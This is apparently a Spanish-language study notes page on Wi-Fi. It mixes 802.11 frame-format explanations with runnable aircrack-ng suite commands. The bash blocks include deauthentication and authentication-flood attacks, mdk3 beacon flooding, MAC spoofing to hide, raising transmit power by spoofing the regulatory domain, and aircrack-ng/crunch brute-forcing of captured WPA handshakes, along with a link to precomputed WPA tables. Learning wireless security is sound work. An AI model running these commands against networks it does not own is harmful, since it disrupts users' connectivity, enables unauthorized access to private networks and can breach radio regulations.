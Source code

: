 ```yaml
---
title: 'Wi-fi'
description: ''
pubDate: 'May 12 2023'
heroImage: 'https://res.cloudinary.com/djc1umong/image/upload/v1685504739/Screenshot_from_2023-05-30_23-45-31_akzecv.png'
slug: 'wi_fi'
---
```


### Basic

La maxima transmision de poder esta basado en las leyes de cada pais llamado regulatory domain (regdomain) que corresponde al ISO del codigo del pais.

Por defecto el adaptador esta configurado a cero, pero se puede cambiar por la linea de comandos

#### 802.11 MPDU (MAC Protocol DATA Unit) formato

Cada campo esta anotado por la longitud de su byte

<div id="table">

| bytes 2          | 2           | 6       | 6     | 6       | 2                | 6     | 0-2312     | 4         |     |       |
| ---------------- | ----------- | ------- | ----- | ------- | ---------------- | ----- | ---------- | --------- | --- | ----- |
| frame control    | Duration ID | Addr1   | Addr2 | Addr3   | Sequence Control | Addr4 | Frame Body | fcs       |     |       |
| protocol version | type        | subtype | to DS | From DS | More flag        | Retry | Pwr Mgmt   | More Data | wep | order |
| bits 2           | 2           | 4       | 1     | 1       | 1                | 1     | 1          | 1         | 1   | 1     |

</div>

```bash

# Caffe-Latte Attack
lsmod
# basics #
iwconfig
#more information
iw list

# Pone el wifi en el canal 11
iwconfig wlan0 channel 11
iw dev wlan0 set channel 11

# dbm #
# incrementar el maximo poder de transmision en el adaptador wifi
iw reg set BO

# 30 dbm corresponde a 1000mW
iw dev wlan0 set txpower fixed 30dbm

# confirmar que funciona
iwconfig wlan0

# test mode (calidad de nuestro setup para el AP "access point") #
aireplay-ng -9 wlan0

```

<img src='https://res.cloudinary.com/djc1umong/image/upload/v1685504598/Screenshot_from_2023-05-30_23-42-53_qued87.png' />

```bash
## Set MONITOR MODE
sudo ip link set wlan0 down
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up
## cambiar nuestro mac para camuflarse
macchanger -h
sudo airmon-ng check
sudo airmon-ng check kill

ifconfig wlan0 down

iwconfig wlan0

ifconfig wlan0 up

# creamos la interfaz mon0 a partir de wlan0
iw dev wlan0 interface add mon0 type monitor

#########################################
sudo ip link set wlp1s0 down
#sudo iw wlp1s0 set monitor none
#;sudo iw wlp1s0 set type managed
;sudo iw wlp1s0 set type monitor
sudo ip link set wlp1s0 up
###########################

ifconfig mon0 up

# monitoreamos toda la red
airodump-ng wlan0

# Monitoreamos la red mac_address por el canal 36 usando la interface wlan0
airodump-ng --bssid mac_address -c 36 wlan0 -w captura.txt

# Enviamos paquetes de deactentication
aireplay-ng -0 15 -a mac_address -c device_address_station wlan0

# ataque deauth
aireplay-ng -0 1 -a mac_address_BSSID -c device_address_station-client_mac wlan0

# ataque de authenticacion para saturar la red
aireplay-ng -1 0 -a mac_address -h device_address_station_random wlan0

# Enviar usuaruois de one
mdk3 wlan0 a -a mac_address

## Ataque 3 de beacons meter usuarios a la red wifi
# usando wlan0 ataque b con el archivo redes.txt -a wpa2 cada segundo x el canal 11
# cat redes.txt
# network1
# network2
# network3

mdk3 wlan0 b -f redes.txt -a -s 1000 -c 11

# Brute force
aircrack-ng -w wordlist cap.file

# create diccionario, dictionary
# generate, generar, contraseñas
crunch 8 8 | aircrack-ng -e RosNetwork file.cap -w -

# crunch 8 8 -t passwo@% >> passwords

```

**BSSID:** Identifica un AP
**Dirección de destino (DA):** Destino final para recivir el frame
**Dirección fuente (SA):** Fuente original que creo el frame
**Dirección del destinatario (RA):** Destino STA
**Dirección del transmisor (TA):** Transmisor STA

Los _beacons_ son fotogramas que transmite periodicamente el AP. Su proposito es anunciar la red WI-FI, contiene información sobre los parametros de la red y capacidades del AP como tasas de rendimiento admitidas

_Probe requests_ son enviados por el cliente para determinar la disponibilidad de la red, contiene el nombre SSID y es enviado por todos los canales, un nullbyte puede ser enviado si no quiere buscar una red especifica

_Probe responses_ son enviados por el AP una vez que recibe el probe request, son parecidos al beacon pero con información adicional según lo especificado por el cliente que se comunica dentro del prove request correspondiente

Despues de la authenticación una estacion necesita ser asociada por el AP, este es el proposito del _Association Request_ frames, contiene información sobre las capacidades STA, velocidades de data transmitida y el SSID de la red a la que desea asociarse

### 3 estados posibles de conexión

- No autenticado
- Autenticado pero no asociado
- Autenticado y asociado

El estandar 802.11 original especifica que hay 2 modos de autenticación diferentes.

- Autenticación abierta
- Autenticación de llave compartida

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1691031056/Screenshot_from_2023-08-02_22-50-09_yi6gyw.webp" alt="airodump-ng">

esta seccion muestra información sobre los clientes de la red

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1691031181/Screenshot_from_2023-08-02_22-52-47_mzhdsw.webp" alt="">

- [DB para brute-force](https://www.renderlab.net/projects/WPA-tables/)

### Airbase-ng

```bash
# Deprecated
# brctl addbr br0
# brctl addif br0 eth0
# brctl addif br0 at0

ip link add br0 type bridge
ip link set dev eth0 master br0
ip link set dev at0 master br0

ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig br0 192.168.0.10 up

iptables -t nat -A POSTROUTING -o br0 -j MASQUERADE

echo 1 > /proc/sys/net/ipv4/ip_forward

# Disponible para conectarse a internet en este punto

ip link set veth0 up
ip link set veth0-br up
```
